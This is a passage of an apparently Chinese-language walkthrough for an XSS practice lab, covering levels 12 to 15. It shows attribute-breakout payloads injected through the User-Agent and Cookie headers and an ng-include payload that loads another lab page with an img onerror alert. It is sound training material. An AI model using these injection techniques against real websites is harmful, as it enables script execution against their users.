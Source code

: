 ### level 12

与第11关原理相同，只不过回显的字段从Referer换成了User-Agent。

```
User-Agent:" type="" onclick=alert('xss')>//
```

### level 13

与第11关原理相同，只不过回显的字段从Referer换成了Cookie。

```
Cookie: user=" type="" onclick=alert('xss')>//
```

### level 14

https://blog.csdn.net/qq_40929683/article/details/120422266

### level 15

传入src参数的值会被用于`ng-include`。

```
?src=ccb

// 查看页面html
<span class="ng-include:ccb"></span>
```

`ng-include`指令用于包含外部的 HTML 文件，包含的内容将作为指定元素的子节点。

> ng-include如果单纯指定地址，必须要加引号
>
> ng-include加载外部html，script标签中的内容不执行
>
> ng-include加载外部html中含有style标签样式可以识别
>
> ng-include 属性的值可以是一个表达式，返回一个文件名
>
> 默认情况下，包含的文件需要包含在同一个域名下。

尝试通用的攻击语句：

```
?src="<script>alert(1)</script>  // 
```

发现双引号被过滤，<>被实体编码，只能使用其他XSS语句

```
// 加载同一域名下的外部文件level1.php，同时传入参数name
?src='level1.php?name=<img src=1 onerror=alert(1)>'
```

这样该页面就会包含level1.php，并传入name参数`<img src=1 onerror=alert(1)>'`，由于在解析src时出错，所以触发onerror。
